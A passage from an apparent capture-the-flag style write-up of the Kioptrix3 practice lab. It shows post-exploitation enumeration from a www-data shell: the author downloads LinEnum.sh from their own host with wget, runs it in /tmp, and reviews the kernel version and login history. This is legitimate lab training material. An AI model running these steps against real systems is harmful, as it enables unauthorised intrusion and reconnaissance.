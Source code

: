 Cool! We'll go ahead and repeat the process from the [last box](https://0xash.github.io/2020-07-28-Kioptrix-Level-1.1/) and run LinEnum:

```bash
www-data@Kioptrix3:/$ which wget
which wget
/usr/bin/wget
www-data@Kioptrix3:/$ cd /tmp
cd /tmp
www-data@Kioptrix3:/tmp$ mkdir lol
mkdir lol
www-data@Kioptrix3:/tmp$ cd lol
cd lol
www-data@Kioptrix3:/tmp/lol$ wget http://10.0.0.168/LinEnum.sh
wget http://10.0.0.168/LinEnum.sh
--23:41:18--  http://10.0.0.168/LinEnum.sh
           => `LinEnum.sh'
Connecting to 10.0.0.168:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46,631 (46K) [text/x-sh]

 0% [                                     ] 0             --.--K/s         100%[====================================>] 46,631        --.--K/s             

23:41:18 (336.00 MB/s) - `LinEnum.sh' saved [46631/46631]

www-data@Kioptrix3:/tmp/lol$ chmod +x LinEnum.sh && ./LinEnum.sh >> lol.txt
chmod +x LinEnum.sh && ./LinEnum.sh >> lol.txt
www-data@Kioptrix3:/tmp/lol$ ls -la
ls -la
total 84
drwxr-xr-x 2 www-data www-data  4096 Jul 28 23:41 .
drwxrwxrwt 5 root     root      4096 Jul 28 23:41 ..
-rwxr-xr-x 1 www-data www-data 46631 Jul 28 23:40 LinEnum.sh
-rw-r--r-- 1 www-data www-data 28137 Jul 28 23:41 lol.txt
www-data@Kioptrix3:/tmp/lol$ 
```

I'll save you from the FTP commands getting the output file back to my host, anyways, let's take a look at the interesting findings:

```bash
Linux Kioptrix3 2.6.24-24-server
```

This is really old... if we look at the rest of the output we can see some information on users that have logged onto the system:

```bash
Users that have previously logged onto the system:
Username         Port     From             Latest
root             tty1                      Mon Apr 18 11:29:13 -0400 2011
loneferret       pts/1    192.168.1.106    Sat Apr 16 08:51:58 -0400 2011
```
